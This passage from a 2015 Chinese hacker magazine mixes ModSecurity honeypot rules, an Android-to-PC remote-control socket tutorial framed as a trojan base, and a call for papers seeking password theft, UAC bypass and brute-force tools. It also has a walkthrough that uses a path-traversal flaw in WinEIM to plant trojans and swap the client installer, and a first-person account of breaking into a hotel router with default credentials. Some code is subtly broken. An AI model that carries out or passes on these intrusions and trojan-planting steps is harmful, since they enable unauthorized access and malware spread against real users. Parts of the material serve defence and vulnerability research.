同时 apache 的错误日志里也会有一条记录如下：
[Fri Mar 27 12:20:48 2015] [error] [client 192.168.4.78] ModSecurity: Warning.
Pattern match "^(81|8000|8080|8081|8888)$" at SERVER_PORT. [file "/etc/httpd/modsecurity.d/honeypot_port.conf"] [line "19"] [id "999001"] [msg "WAF_Honeypot Alert: someone access the fake port."] [hostname "192.168.4.56"] [uri "/"] [unique_id "VRTaoH8AAAEAABAJANMAAAB"]
```

##### 2）针对请求特定目录或文件的尝试

我们假设黑客发现了这个端口，访问是一个 MS 正常的网页，怎么引导黑客去访问你留下的线索？一个思路是放在 robots.txt 文件里，一个思路是放在黑客常会尝试访问的目录里（或者在猜解目录文件的字典里）。这里我们尝试用 modsecurity 在内容中动态地插入我们的内容到 robots.txt 里，假设正常的网页下 robots.txt 内容如下：

```
User-agent: *
Disallow: /api/
Disallow: /inc/
Disallow: /cgi-bin/
Disallow: /admin/
```

相关的含义就不解释了，如果我们往里面写入一些像 logs、backup 等的目录呢？会不会有人感兴趣？我们写几条规则到 honeypot_url.conf 文件，重点内容如下：

```
SecContentInjection On
SecRule REQUEST_FILENAME "@streq /robots.txt" \
"id:'999002',phase:4,t:none,nolog,pass,append:'Disallow: /bak.%{time_epoch}/ # website backup files'"
SecRule REQUEST_FILENAME "^/bak\.\d{10}" \
"id:'999003',phase:2,t:none,log,block,msg:'WAF_Honeypot Alert: someone access the fake url.'"
```

当尝试访问的时候，会发现返回的 robots.txt 末尾会有一行我们动态插入的内容：
Disallow: /bak.1427434973/ # website backup files
当接着访问 /bak.1427434973 时，会触发错误日志：

```
[Fri Mar 27 13:43:00 2015] [error] [client 192.168.4.78] ModSecurity: Warning.
Pattern match "^/bak.\\\d{10}" at REQUEST_FILENAME. [file "/etc/httpd/modsecurity.d/honeypot_url.conf"] [line "7"] [id "999003"] [msg ...]
"WAF_Honeypot Alert: someone access the fake url." [hostname "192.168.4.56"] [uri "/bak.1427434973/"] [unique_id "VRTt5H8AAAEAABDzAM4AAAAB"]
```

上面的内容大家可以举一反三，自行发挥。

##### 3）在登录页面中插入伪造信息

试想有个登录页面 login.php，扫描器可能会去请求 login.php.bak 文件是否存在，我们怎么告诉黑客，我们有一个文件在 login_bak.php.bak 让他会去尝试请求呢？可以在登录页面表单前插入一段 HTML 注释代码。以 osadmin 管理后台为例，表单代码 `<form name="loginForm" method="post" action="">`，我们用 modsecurity 在这之前写入一些 HTML 注释，新建规则文件 honeypot_comment.conf，内容如下：

```
SecContentInjection On
SecStreamOutBodyInspection On
SecRule REQUEST_FILENAME "@streq /login.php" \
"chain,id:'999004',phase:4,t:none,nolog,pass,setvar:'tx.fake_comment=<form name=\"loginForm\" method=\"post\" action=\"\">'"
SecRule STREAM_OUTPUT_BODY "@rsub s/%{tx.fake_comment}/<!-- the old login page is login_bak.php.bak , backup by admin -->%{tx.fake_comment}/d"
SecRule REQUEST_FILENAME "@streq /login_bak.php.bak" \
"id:'999005',phase:1,t:none,log,block,msg:'WAF_Honeypot Alert: someone access the fake url by html comment'"
```

当有人尝试查看 HTML 注释的时候，会发现如下内容：

```
<!-- the old login page is login_bak.php.bak , backup by admin --><form name="loginForm" method="post" action="">
```

手工尝试访问，会触发告警，apache 错误日志如下：

```
[Fri Mar 27 14:26:08 2015] [error] [client 192.168.4.78] ModSecurity: Warning. String match "/login_bak.php.bak" at REQUEST_FILENAME. [file "/etc/httpd/modsecurity.d/honeypot_comment.conf"] [line "8"] [id "999005"] [msg "WAF_Honeypot Alert: someone access the fake url by html comment"] [hostname "192.168.4.56"] [uri "/login_bak.php.bak"] [unique_id "VRT4AH8AAAEAABFiAzMAAAAD"]
```

## 其它扩展思路与小结

其实还有蛮多其它的思路，比如在表单中插入隐藏字段，并在 modsecurity 中判断是否修改；在 cookie 信息中插入表示管理员身份或权限的字段 admin:0，并在 modsecurity 中判断是否被修改；结合 WAF 其它的规则得到恶意 IP 后，我们将返回这个 IP 的数据中插入我们的信息，这样才不会误伤正常的用户；或者可以更狠一点，在某个 bak/重要文档/的目录放一些“XX 集团内部联系方式、XX 集团领导讲话、关于调整 XX 系统的 WAF 配置的说明”这样的文档，而这个 office 或 pdf 文档其实是会收集客户端的信息甚至直接感染目标机器的，请自行发挥，与我无关 :)

Apache 的错误日志可以写到远程 syslog 服务器，这样就可以进行关联分析等。将配置好的系统做成一个虚拟机镜像，部署在各 DMZ 区域或者其它你想放置的任何地方，将触发这些攻击的 IP 进行全局阻断、流量引导，还是想诱敌深入，就看自己发挥了。

（完）

### Android 局域网控制 PC

文/图 马智超（DesertEagle）黄澄

家里没有无线路由器，幸亏有无线网卡，在东屋电脑主机上通过无线网卡共享 WIFI，晚上要用 WIFI，每次睡前都要到东屋去关电脑，感觉有些麻烦，之后冒出了一个想法：写一个遥控程序，遥控关电脑、监控电脑屏幕等，这样动动手指头，电脑就关了，以后就不麻烦了。

当然，所用的技术也可以用来做远控木马了。本文主要对局域网控制技术进行研究，讲解如何通过 Android 手机遥控电脑关机锁屏等，其他远控功能不做重点研究。传统意义的远程控制一般指在一台 PC 上能操控另一台 PC，而现在我们可以通过 Android 来达到远程控制 PC 效果。这里为达到遥控的效果，将采用局域网通信的原理来实现这一功能。本次本着求知的理念，打破传统 PC 作为服务端的思想，以 Android 手机作为服务端，PC 作为客户端实现这一功能。

#### 编程分析

Socket 又称“套接字”，应用程序通常通过套接字向网络发出请求或者应答网络请求。Socket 是对 TCP/IP 协议的封装和应用，要传输数据则需 TCP、UDP 协议，TCP 和 UDP 的概念很清楚：TCP 建立连接能中断，但中断后必须三次握手才能再建立连接，而 UDP 是可以在中断后继续通信的。

TCP 建立连接后，以后的发送不需要再指定 IP 等信息，而 UDP 每次都需要 IP 加端口，所以 UDP 很适合手机控制电脑的操作，中间连接偶尔中断了也没事。

我们要对 Android 端的事件监听，比如点击、双击、发送命令等各种事件，需要建立 Socket，传递命令数据给客户端，同时实时监听客户端传来的消息。

客户端监听信息。有效数据到达则进行数据识别，通过 C++ 调用 Windows 的一些事件，这里指执行关机、锁屏等各种命令。Socket 通信整个流程处理如图 1 所示。


图 1

Android 控制电脑可用 Socket 来实现，Socket 用来描述 IP 地址和端口。通过 socket 在


#### Android 远程监控技术

局域网内实现控制电脑关机，其机理与 Windows 上实现 Socket 通信一样，Android 服务器端做如下流程处理：

- 1. 创建服务器端套接字并绑定到一个端口上；
- 2. 套接字设置监听模式，等待连接请求；
- 3. 接受连接请求后进行通信，创建线程收发消息；
- 4. 发送远控消息。

PC 客户端编程思路如下：

- 1. 初始化 SOCKET；
- 2. 连接服务器端；
- 3. 创建线程收发消息并执行。

#### 代码分析

##### 1）服务器端核心代码分析

第一步：自定义函数获取本机 IP。

Enumeration 定义了一个名为 nextElement 的方法，可以从含多个元素的数据结构中得到下一个元素，通过 getNetworkInterfaces 方法来获取本机所有的网络接口。NetworkInterface 此类表示一个由 IP 地址列表组成的网络接口。而 InetAddress 的实例对象包含以数字形式保存的 IP 地址，就是这么回事了。

```java
public String getLocalIpAddress()
{
    try {
        for (Enumeration<NetworkInterface> en = NetworkInterface.getNetworkInterfaces(); en.hasMoreElements();) {
            NetworkInterface intf = en.nextElement();
            for (Enumeration<InetAddress> enumIpAddr = intf.getInetAddresses(); enumIpAddr.hasMoreElements();) {
                InetAddress inetAddress = enumIpAddr.nextElement();
                {
                    recvMessageServer += "请连接IP：" + inetAddress.getHostAddress() + ":" + serverSocket.getLocalPort() + "\n";
                }
            }
        }
    } catch (SocketException ex) {
        recvMessageServer = "获取 IP 地址异常:" + ex.getMessage() + "\n";
        // 消息换行
        Message msg = new Message();
        msg.what = 0;
        mHandler.sendMessage(msg);
    }
    Message msg = new Message();
    msg.what = 0;
    mHandler.sendMessage(msg);
    return null;
}
```

第二步：创建套接字，绑定端口，收发数据，在线程中完成。

```java
private Runnable mcreateRunnable = new Runnable()
{
    public void run()
    {
        try {
            serverSocket = new ServerSocket(0);

            SocketAddress address = null;
            if (!serverSocket.isBound())
            {
                serverSocket.bind(address, 0);
            }
            getLocalIpAddress();
            // 方法用于等待客户端连接
            mSocketServer = serverSocket.accept();
            // 接受客户端数据 BufferedReader 对象
            mBufferedReaderServer = new BufferedReader(new InputStreamReader(mSocketServer.getInputStream()));
            mPrintWriterServer = new PrintWriter(mSocketServer.getOutputStream(), true);
            mPrintWriter.println("服务端已经收到数据");
        }
    }
```

##### 2）客户端核心代码分析

第一步：初始化 SOCKET。

```cpp
WORD wVersionrequested;
WSADATA wsaData;
wVersionrequested = MAKEWORD(2,0);
int err = WSAStartup(wVersionrequested, &wsaData);
if (err == -1)
{
    MessageBox(0, "WSAStartup err", "error", MB_OK);
}
```

第二步：连接服务器。

```cpp
char server_address[50] = {0};
char recv_message_client[256] = {0};
struct sockaddr_in server_ip;
SOCKET clientSockConnect;
u_short port;
clientSock = socket(AF_INET, SOCK_STREAM, 0);
char *strPort = strstr(server_address, ":");
// Connect
server_ip.sin_family = AF_INET;
server_ip.sin_port = ((port & 0xff00) >> 8) | ((port & 0x00ff) << 8);
server_ip.sin_addr.S_un.S_addr = inet_addr(server_address);
clientSockConnect = connect(clientSock, (struct sockaddr*)&server_ip, sizeof(server_ip));
if (clientSockConnect != 0)
{
    CString temp;
    return FALSE;
}
```

第三步：在线程函数里设置监听收发信息，消息解析后收到相应消息执行命令。  
在连接按钮里添加创建线程的代码：

```cpp
hThread = CreateThread(NULL,
    0,
    clientThreadFunc,
    NULL, // 传递的参数
    0,
    &clientThreadID);
```

在线程函数里设置监听收发信息：

```cpp
DWORD WINAPI clientThreadFunc(LPVOID threadNum)
{
    while (clientThreadRun)
    {
        if ((length = recv(clientSock, (char*)recv_message_client, sizeof(recv_message_client), 0)) > 0)
        {
            temp.Format("接收到的信息：\n%s", recv_message_client);
            SetDlgItemText(FindWindow(NULL, WINDOWNHANDLERNAME), IDC_STATIC, temp);
            memset(recv_message_client, 0, sizeof(recv_message_client));
            if (strcmp(recv_message_client, "cmd")) {
                system("rundll32.exe user32.dll,LockWorkStation ");
            }
        }
    }
}
```

```cpp
// system("rundll32.exe user32.dll,LockWorkStation ");
temp.Format("接收到的信息：\n%s", recv_message_client);
}
return 0;
}
```

#### 测试截图

图 2 是服务器端打开后的效果图，看到 IP 和端口后，我们开始连接。图 3 是客户端连接上的运行截图。


图 2


图 3

图 4 是手机连接上后的状态，图 5 是停止服务后的效果。


图 4

图 5

本程序分为客户端与服务端，服务端为控制端，客户端是 PC 上的应用程序，可以实现用 Android 手机控制电脑锁定，也可以略加代码执行关机、打开应用等多种功能。总而言之，本程序是个框架，在其上挂什么衣服就可以呈现不同效果，只需加上几行代码。只要手机与电脑在同一局域网内，就可以实现这一功能。另外，通过这次编程学习，也学到了不少的知识。

当然，基于同样的 Socket 通信原理，我们还可以实现其他 Android 控制 PC 的功能，如屏幕实时监控、控制音量、打开某个网站、获取电脑中的某些文件、控制鼠标操作等等。本文讲述的技术仍是一个框架，关键是基于如此框架技术原理而实现的这些功能，既可以方便我们的生活，也可以加工成为远控木马。

（完）

### 2015 年第 5 期杂志特约选题征稿

黑客防线于 2013 年推出新的约稿机制，每期均会推出编辑部特选的选题，涵盖信息安全领域的各个方面。对这些选题有兴趣的读者与作者，可联系投稿信箱：675122680@qq.com、hadefence@gmail.com，或者 QQ：675122680，确定有意的选题。按照要求如期完成稿件者，稿酬按照最高标准发放！特别优秀的稿酬另议。2015 年第 5 期部分选题如下，完整的选题内容请见每月发送的约稿邮件。

#### 1. Exchange 临时文件还原解密

对于 Exchange 邮件服务器，最新邮件最初会以临时文件形式存储于服务器上，若要实现对最新邮件的实时获取，可针对加密的临时文件进行还原，从而获取邮件。  
编写程序，实现对 Exchange 临时文件的还原。

#### 2. Exchange 账户密码获取

对 Exchange 邮件系统所有用户及对应密码的抓取、还原；Exchange 邮箱系统无法直接进行数据操作，所以需要对其数据库进行提取和还原。  
编写程序，实现对 Exchange 邮件系统的监控，获取邮件系统所有内建账户与密码。

#### 3. 绕过 Windows UAC 的权限限制

自本期始，黑客防线杂志长期征集有关绕过 Windows UAC 权限限制的文章（已知方法除外）。

- 1) Windows UAC 高权限下，绕过 UAC 提示进入系统的方法；
- 2) Windows UAC 低权限下，进入系统后提高账户权限的方法。

#### 4. 虚拟机穿透

主机安装有虚拟机，现已远程控制虚拟机，寻求如何利用虚拟机的弱点，穿透虚拟机，进而控制本机的方法。

#### 5. 同步下载邮件

假设本机当前系统已掌控，在用户登录 Web 邮箱时，能够自动后台同步下载邮件并保存，包括收件箱、发件箱、已发送邮件、联系人等信息，优先实现 gmail、yahoo 信箱。

### 6. Windows7 屏幕保护密码获取

非重启系统状态下，本机（非远程受控机）屏幕保护已启动，本地获取 Windows7 屏幕保护密码的方法。

#### 7. 暴力破解 3389 远程桌面密码

- 要求：
- 1) 针对 Windows 3389 远程桌面实现暴力破解密码；
- 2) 读取指定的用户名和密码字典文件；
- 3) 采用多线程；
- 4) 所有函数都必须判断错误值；
- 5) 使用 VC++2008 编译工具实现，控制台程序；
- 6) 代码写成 C++ 类，直接声明类，调用类成员函数就可以调用功能；
- 7) 支持 Windows XP/2003/7/2008。

### 8. WEB 服务器批量扫描破解

- 1）针对目标 IP 参数要求  
  10.10.0.0/16  
  10.10.3.0/24  
  10.10.1.0-10.255.255.255

- 2）针对目标 Web 服务器扫描要求

可以识别目标 Web 服务器上运行的 Web 服务器程序，比如 APACHE 或者 IIS 等，具体参考如下：

- Tomcat　Weblogic　Jboss  
  Apache　JOnAS　WebSphere  
  Lotus Server　IIS(Webdav)　Axis2  
  Coldfusion　Monkey HTTPD　Nginx

- 3）针对目标 Web 服务器后台扫描  
  针对目标进行后台地址搜索。

- 4）针对目标 Web 后台密码破解  
  搜索到 Web 登录后台以后，尝试弱口令破解，可以指定字典。

#### 9. 编写端口扫描器

- 要求：
- 1）扫描出目标机器开放的端口，支持 TCP Connect、SYN、UDP 扫描方式；
- 2）扫描方式采用多线程，并能设置线程数；
- 3）将功能编写成 DLL，导出功能函数；
- 4）代码写成 C++ 类，直接声明类，调用类成员函数就可以调用功能；
- 5）尽量多做出错异常处理，以防程序意外崩溃；
- 6）使用 VC++2008 编译工具编写；
- 7）支持系统 Windows XP/2003/2008/7。

### 10. Android WIFI Tether 数据转储劫持

说明：  
WIFI Tether（开源项目）可以在 ROOT 过的 Android 设备上共享移动网络（也就是我们常说的 Wi-Fi 热点），请参照 WIFI Tether 实现一个程序，对流经本机的所有网络数据进行分析存储。

- 要求：
- 1）开启 WIFI 热点后，对流经本机的所有网络数据进行存储；
- 2）不同的网络协议存储为不同的文件，比如 HTTP 协议存储为 HTTP.DAT；
- 3）针对 HTTP 下载进行劫持，比如用户下载 www.xx.com/abc.zip，软件能拦截此地址并替换 abc.zip 文件。

### 11. 突破 Windows7 UAC

说明：

编写一个程序，绕过 Windows7 UAC 提示，启动另外一个程序，并使这个程序获取到管理员权限。

要求：

- 1）Windows UAC 安全设置为最高级别；
- 2）系统补丁打到最新；
- 3）支持 32 位和 64 位系统。

## 2015 年征稿启示

《黑客防线》作为一本技术月刊，已经 15 年了。这十多年以来基本上形成了一个网络安全技术坎坷发展的主线，陪伴着无数热爱技术、钻研技术、热衷网络安全技术创新的同仁们实现了诸多技术突破。再次感谢所有的读者和作者，希望这份技术杂志可以永远陪你一起走下去。

投稿栏目：

#### 首发漏洞

要求原创必须首发，杜绝一切二手资料。主要内容集中在各种 0Day 公布、讨论，欢迎第一手溢出类文章，特别欢迎主流操作系统和网络设备的底层 0Day，稿费从优，可以洽谈深度合作。有深度合作意向者，直接联系总编辑 binsun20000@hotmail.com。

#### Android 技术研究

黑防重点栏目，对 Android 系统的攻击、破解、控制等技术的研究。研究方向包括 Android 源代码解析、Android 虚拟机，重点欢迎针对 Android 下杀毒软件机制和系统底层机理研究的技术和成果。

#### 本月焦点

针对时下的热点网络安全技术问题展开讨论，或发表自己的技术观点、研究成果，或针对某一技术事件做分析、评测。

#### 漏洞攻防

利用系统漏洞、网络协议漏洞进行的渗透、入侵、反渗透、反入侵，包括比较流行的第三方软件和网络设备 0Day 的触发机理，对于国际国内发布的 poc 进行分析研究，编写并提供优化的 exploit 思路和过程；同时可针对最新爆发的漏洞进行底层触发、shellcode 分析以及对各种平台安全机制的研究。

#### 脚本攻防

利用脚本系统漏洞进行的注入、提权、渗透；国内外使用率高的脚本系统的 0Day 以及相关防护代码。重点欢迎利用脚本语言缺陷和数据库漏洞配合的注入以及补丁建议；重点欢迎 PHP、JSP 以及 HTML 边界注入的研究和代码实现。

#### 工具与免杀

巧妙的免杀技术讨论；针对最新 Anti 杀毒软件、HIPS 等安全防护软件技术的讨论。特别欢迎突破安全防护软件主动防御的技术讨论，以及针对主流杀毒软件文件监控和扫描技术的新型思路对抗，并且欢迎在源代码基础上免杀和专杀的技术论证！最新工具，包括安全工具和黑客工具的新技术分析，以及新的使用技巧的实例讲解。

#### 渗透与提权

黑防重点栏目。欢迎非 Windows 系统、非 SQL 数据库以外的主流操作系统的渗透、提权技术讨论，特别欢迎内网渗透、摆渡、提权的技术突破。一切独特的渗透、提权实际例子均在此栏目发表，杜绝任何无亮点技术文章！

#### 溢出研究

对各种系统包括应用软件漏洞的详细分析，以及底层触发、shellcode 编写、漏洞模式等。

#### 外文精粹

选取国外优秀的网络安全技术文章，进行翻译、讨论。

#### 网络安全顾问

我们关注局域网和广域网整体网络防/杀病毒、防渗透体系的建立；ARP 系统的整体防护；较有效的不损失网络资源的防范 DDoS 攻击技术等相关方面的技术文章。

#### 搜索引擎优化

主要针对特定关键词在各搜索引擎的综合排名、针对主流搜索引擎的多关键词排名的优化技术。

#### 密界寻踪

关于算法、完全破解、硬件级加解密的技术讨论和病毒分析、虚拟机设计、外壳开发、调试及逆向分析技术的深入研究。

#### 编程解析

各种安全软件和黑客软件的编程技术探讨；底层驱动、网络协议、进程的加载与控制技术探讨和 virus 高级应用技术编写；以及漏洞利用的关键代码解析和测试。重点欢迎 C/C++/ASM 自主开发独特工具的开源讨论。

### 投稿格式要求：

- 1. 技术分析来稿一律使用 Word 编排，将图片插入文章中适当的位置，并明确标注“图1”“图2”；
- 2. 在稿件末尾请注明您的账户名、银行账号，以及开户地址，包括你的真实姓名、准确的邮寄地址和邮编、QQ 或者 MSN、邮箱、常用的笔名等，方便我们发放稿费。
- 3. 投稿方式和周期：采用 E-Mail 方式投稿，投稿 mail：hadefence@gmail.com、QQ：675122680。投稿后，稿件录用情况将于 1～3 个工作日内回复，请作者留意查看。每月 10 日前投稿将有机会发表在下月杂志上，10 日后将放到下下月杂志，请作者朋友注意，确认在下一期也没使用者，可以另投他处。限于人力，未采用的恕不退稿，请自留底稿。

**重点提示：** 严禁一稿两投。无论什么原因，如果出现重稿——与别的杂志重复——与别的网站重复，将会扣发稿费，从此不再录用该作者稿件。

- 4. 稿费发放周期：稿费当月发放（最迟不超过 2 月），稿费从优。欢迎更多的专业技术人员加入到这个行列。
- 5. 根据稿件质量，分为一等奖、二等奖、三等奖稿件，稿费标准如下：  
  - 一等稿件：900 元/篇  
  - 二等稿件：600 元/篇  
  - 三等稿件：300 元/篇
- 6. 稿费发放办法：银行卡发放，支持境内各大银行借记卡，不支持信用卡。
- 7. 投稿信箱及编辑联系：投稿信箱：675122680@qq.com、hadefence@gmail.com；编辑 QQ：675122680。

# 黑客防线

总第174期 2015

网站全新改版，欢迎访问：http://www.hacker.com.cn

- 打造Android系统加速器
- WAF另类应用之DLP与WebShell访问检测
- 挖掘助讯通的远程安全漏洞
- 渗透某“高大上”车友会网站
- 深入解析GDT

## 《黑客防线》6期文章目录

总第174期 2015年

#### 漏洞攻防

- 论渗透测试的几个阶段（木羊）.................................3
- 挖掘助讯通的远程安全漏洞（爱无言）...........................4
- 记一次入侵旅店系统（马智超）.................................9
- 渗透某“高大上”车友会网站（simeon）.........................14
- Ftp弱口令渗透某服务器（Simeon）............................19

#### 编程解析

- 编写Windows系统锁屏图片更改工具（DesertEagle）...............24
- 深入解析GDT（主动）.........................................28

#### 网络安全顾问

- WAF另类应用之DLP与WebShell访问检测（xysky）..................53

### Android远程监控技术

- 打造Android系统加速器（高晓琪）............................58

- 2015年第6期杂志特约选题征稿...............................63
- 2015年征稿启示.............................................66

### 论渗透测试的几个阶段

文/图 木羊

之前发了几篇文章，基本都是围绕漏洞攻防这一热点话题展开讨论，最初的打算是将漏洞攻防涵盖的主要方向分作几个专题写成系列文章，也是这么做的，原以为步步为营各位同好能更容易形成整体观感，没想最近好几位同学问到的同一个问题却让我发现框架是有了，倒是根基没有筑牢。这个问题就是：现在有了漏洞，那木马是不是没用了？

这是个问题。如果你看到这笑了，请不要笑，这确实是个问题。当然了，对于这个问题本身，答案是很明确的：不是。如果进一步问，为什么不是呢？这个问题我代为请教了几位前辈，回答基本都是“不是一回事嘛”，比较笼统，我的回答是：因为是不同的阶段。这样自然会进一步再问，那到底有几个阶段呢？这个正是前文所说的“根基”，我们都顾着咔嚓就说技术，譬如说漏洞，譬如说木马，譬如说社会工程，技术很多，但技术在整个过程中所处的背景以及它所在的位置却都不说。

整个过程，这里指的是渗透测试（penetration test），这个颇为学究气的词在从良以前都叫入侵或者干脆就是一个字“黑”（hack），细究起来有些词都有微妙的区别但这篇是技术文就不作区分了。首先必须负责任地说，计算机科学作为一门学科，其理论除了在算法等一些和其它学科深度交叉的方面外，总体是落后于实践的，现在对渗透测试的阶段划分是没有一个不证自明或者普遍公认的标准，特别是商业化以后，美国出版的一些书对渗透测试的环节还牵涉到管理和法律方面的问题，至少也包括情报收集等工作（俗称踩点）。美国人常说what、why、how，how是放在最后的，也就是说，怎么黑是最后才关心的问题，而黑什么才是天字第一号要搞清楚的。不过这里我们狭隘一点，假设已经确定了我们要黑什么，可是渗透什么，现在来讨论怎么渗透的几个阶段。

我个人把渗透测试分成三段。不妨将渗透过程看成一个“程序”，需要强调的是，这是一个加引号的概念上的程序，毕竟渗透测试不一定要生成独立的可执行文件，甚至不一定需要一个独立的进程，又或者依赖好几个不同的进程，只不过我们需要计算机完成我们想办的事都依靠程序，那不妨就把这个办事的过程抽象成一个“程序”。既然是程序，自然就会有三个阶段：运行前、运行时和运行后，这三个阶段都是相对独立的，但在流程上又相辅相成。请再一次注意，这套“三段论”解释框架是木羊独创，目的是便于理解，至于考试怎么答那得看课本，套用木羊的解释框架多半是要零分的。

运行前阶段主要干一件事：提权。写渗透测试和漏洞攻防的文章都会与一个词深度关联，这个词就是提权。提什么权呢？都没有说，如果套用木羊的“三段论”就很好理解了，提运行权。我们的程序要运行，首先得有运行权。至于运行什么，那就得看我们的程序依靠什么，譬如说木马，木马是个正儿八经的可执行文件，要运行那就得有运行可执行文件的权限。怎么取得这个权限呢？技术一点可以通过找漏洞，怎么通过漏洞运行可执行文件之前说了很多就不展开了，当然也可以通过社工，详细步骤建议参悟卡耐基的《人性的弱点》，譬如说将木马改名为“优衣库完整视频压缩包.exe”让哪个色鬼点击。

运行前这个阶段强调的是权限，让想要启动的“程序”能够启动起来，并不关心运行什么。我是黑帽，我拥有运行权可以运行木马；但是白帽，我拥有运行权则只是运行计算器。不过也不要简单地等同于启动可执行程序，这与运行时的需求有关，如果“程序”需要重启，那么这里的运行权就必须包括重启的权限；如果程序依赖第三方软件，譬如说某个系统服务的配置，那么这个运行权也需要包括修改这个系统服务配置的权限。运行前阶段是拥有某个能力或者解除某项限制的过程，但用不用这个能力，则是后面的事。

漏洞挖掘正是运行前阶段的工作，至于用不用、怎么用，那得看后两个阶段，运行时和运行后了。运行时很好理解，就是做爱做的事情，“人脑爱用电脑做什么”属于社会心理学范畴，我不便多插嘴，非要掺点技术，那只能是逃避杀软和ARK（anti-rootkit）的监控，怎么逃自然是各显神通，以木马为例吧，反弹端口和线程插入都属于这一类技术，现在“三无”（无端口、无进程、无可执行文件）产品也早已满天飞了，当然这也是个反复较量的过程，如果上升到理论高度，那就是保护好第一阶段提好的权，保持程序持续运行直至达到目标。

最后是运行后，这个阶段要做的事一点也不比前两个阶段容易，既要藏得深，在这一次运行结束到下一次运行开始之前，这个时间段不知道有多长，但不管有多长，都必须保证第一阶段提好的权不被拿走，真的非得藏于九地之下不可。又要醒得快，能够根据指令及时地再次启动“程序”，有时候为了达到这一目的，第一阶段必须得额外取得一些权限才能保证完成。运行后阶段是个最容易被忽视的阶段，但却肩负着承前继后的重任，涉及的技术不少，这里暂且先只开题罢。

最后通常都是总结，不过我想说的是，分阶段这种工作通常只有两个目的，一个是便于考试，总得有点什么概念才能死记硬背对吧；一个是便于理解，本文就是这个目的。但对于一次渗透测试，要做的工作全都由同一件重要的事决定，重要的事要说三遍，那就是需求需求需求，而这三个阶段，只不过是按先后顺序，将实现需求的手段进行归纳罢了。

### 挖掘助讯通的远程安全漏洞

文/图 爱无言

谈起国内知名的即时通讯软件，除了大名鼎鼎的QQ以外，助讯通（英文名称WinEIM）也是名声显赫。它不像QQ那样广泛用于互联网上的通讯，助讯通主要用于企业、教育、政府、单位的内部局域网当中，和腾讯旗下的RTX十分类似。从助讯通的官方网站介绍来看，助讯通采用C/S结构，支持用户发送接收消息、文件，高效而又安全稳定。这个软件从2002年开始发布，到现在已经是7.36版本，可见还是相当占有市场的。它的开发者是陈金都，作为个人开发的产品可谓相当不错了。既然是被市场认可的软件，那么不论由谁开发，我们都会关注该软件的安全性，即时通讯软件的安全漏洞一向备受关注，就因为其利用价值高，所以助讯通也不例外，今天就让我们一起挖掘一下它会有什么样的安全漏洞呢？

从官方网站上下载了助讯通的最新版，服务器端和客户端都是7.36版本。在WinXP平台下安装助讯通的服务器端和客户端，搭建出我们的被测试平台。安装步骤十分简单，安装完毕后，我们利用“助讯通服务器端管理”软件设置了一个部门叫做“test”，因为毕竟助讯通是为企业内部通讯服务的。在该部门中，我们设置了两个用户分别是：aiwuyan和hack。接下来，我们发现了一个现在非常流行的东西：云盘，如图1所示。

图1

软件的作者在这里将以往的用户文件存储功能上升为了“云盘”这样一个拉风的高度，其主要的目的还是一样，就是为用户在服务器上提供一个可以上传文件的空间。这个功能很令我们关注，因为“上传文件到服务器上”是一个敏感的话题，一个不小心就可能获得对服务器的控制权限，你不信，那你接着往下看。

既然有“云盘”，那么我们就为用户开启“云盘”功能，设置方式很简单就是在用户的前面打上勾，然后设定一个空间大小以供用户上传文件，如图2所示。

图2

设置完成后，我们打开助讯通的客户端登录了名为“aiwuyan”的用户，如图3所示。

图3

从图3可以看出，助讯通的客户端采用了与QQ完全类似的显示界面，操作非常便捷，点击其左下角的绿色图标，找出“云盘”功能，进入到“云盘”使用界面，如图4所示。

图4

现在，我们首先上传一个文件到“云盘”当中，看一看是什么效果。这里选择了一个记事本文件，上传到“我的云盘”当中，如图5所示：

图5

似乎看起来一切都很平静，这不是我们想要的效果，我们希望将这个记事本文件上传到任意目录当中去，为什么要这样做？因为我们希望借助上传功能，将我们的程序上传到服务器的特殊目录当中，例如开机启动目录，那样不就可以执行木马病毒程序，最终成功获得对服务器的控制权限吗？但是，我们应该怎么做呢？那就对被上传记事本文件进行一下重命名吧！我们希望借助重命名的机会，利用跨目录字符串“../”来实现对上传文件目的目录的控制。可是，当我们抱着激动的心情测试的时候，才发现困难比我们想象的要大，如图6所示。

图6

这个残酷的提示对话框似乎打破了我们的希望，但是当我们看到“创建目录”这四个字的时候，如图7所示，我知道机会又来了！

图7

我们在输入新创建的目录名时，输入了“../”字符串，点击“OK”按钮后，令人惊喜的事情终于发生了！如图8所示。

图8

有了这样的成功开始，我想下一步你应该懂了，一般默认情况下，服务端软件会被安装在服务器的C盘目录下，在创建新目录时，你输入系统开机启动目录的地址，然后再创建目录，这样你新建的“云盘”目录就转移到了开机启动目录下，这时候上传个木马程序，搞一次拒绝服务，等服务器一重启，恭喜你一台新肉鸡上线了！

等会，有些读者会说如果服务端没有安装在C盘下，那么又该怎么利用这个漏洞呢？很简单，助讯通的“云盘”功能在创建新目录时不会判断当前被创建的目录是否存在，那么，助讯通服务端的安装目录下肯定会有很多核心目录，例如webroot中的files目录，该目录中存放着允许用户访问网页下载助讯通客户端程序。那么，我们在创建新的“云盘”目录时，将目录名指向webroot中的files目录，创建成功后，在“云盘”功能中直接删除该目录，这时，助讯通服务端会直接删除原有的webroot中的files目录，连同其中包含的原本助讯通自带的那些安全可信的助讯通客户端程序。现在，重新利用“云盘”功能再次创建webroot中的files目录，然后将你的木马病毒程序命名为“wineim_setup.exe”也就是助讯通客户端程序的名字，上传该文件到webroot中的files目录当中，这样一来，一旦有用户利用网页下载安装助讯通客户端程序就会把你的木马病毒程序下载安装在自己电脑上，最终你再一次多了一台肉鸡！同样的渗透思路，你也可以利用来进行对服务器的攻击，替换助讯通服务端的可执行文件或者其他的可执行文件，然后一举拿下服务器。

仅仅几步的操作，我们竟然成功挖掘出助讯通的一个非常危险的安全漏洞，实际上的安全威胁远不止这些，还有更多的漏洞等待有兴趣的读者去挖掘，本文旨在抛砖引玉，请不要利用本文技术进行任何违法行为，作者和杂志概不负责。

### 记一次入侵旅店系统

文/图 马智超（DesertEagle）

放假从学校回家，下了火车已经是凌晨三点多分，于是就在火车站附近找了个小旅店住了下来。夜已很深但没有困意，手机可以连上旅店提供的WIFI，于是打开手机的嗅探工具嗅探数据，果然没什么有用的信息。打开cookie劫持工具，依然没有什么收获。想想现在夜已经深了，很多人肯定都睡了。

顺着原来局域网WIFI渗透的经历，我打开了电脑，直接在局域网内浏览路由器web控制端，需要用户名和密码，如图1所示。

图1

因为路由器名字为TP-LINK，我首先想到直接输入该品牌默认的用户名密码，竟然成功进入。还以为老板会有些安全意识，会更改这个用户名和密码呢，可能很多人认为无所谓吧，但实际上进入后我们可以做很多事，可以更改无线设置，开启远程端口，更改密码等，进入后界面如图2所示。

图2

